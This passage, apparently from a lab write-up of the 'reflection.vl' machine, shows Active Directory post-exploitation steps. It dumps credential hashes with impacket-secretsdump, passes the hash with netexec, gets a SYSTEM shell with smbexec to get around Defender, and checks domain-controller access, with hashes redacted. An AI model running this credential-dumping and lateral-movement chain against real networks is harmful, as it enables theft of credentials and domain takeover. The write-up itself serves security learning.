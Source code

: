 Once again, let's use secretsdump to dump the credentials.

```zsh
➜  ms01 impacket-secretsdump administrator@ws01.reflection.vl -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x7ed33ac4a19a5ea7635d402e58c0055f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
<SNIP>
reflection.vl\Rhys.Garner:<REDACTED>
[*] DPAPI_SYSTEM 
<SNIP>
```

Let's verify that we have admin privileges using netexec.

```zsh
➜  ms01 netexec smb ws01 -u administrator -H <REDACTED> --local-auth
SMB         10.10.219.183   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.10.219.183   445    WS01             [+] WS01\administrator:<REDACTED> (Pwn3d!)
```

It seems that Defender is also active on ws01, which is why PsExec isn't working. In this case, SMBExec comes in handy and helps us proceed.

```zsh
➜  ms01 impacket-smbexec administrator@10.10.219.183 -hashes :<REDACTED>
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

### DC01

```zsh
➜  ms01 netexec ldap dc01 -u Rhys.Garner -p <REDACTED>
SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.219.181   389    DC01             [+] reflection.vl\Rhys.Garner:<REDACTED>
```



When we check the permissions for the Rhys.Garner user using BloodHound, we see that they have GenericAll permissions on the Domain Admins group.

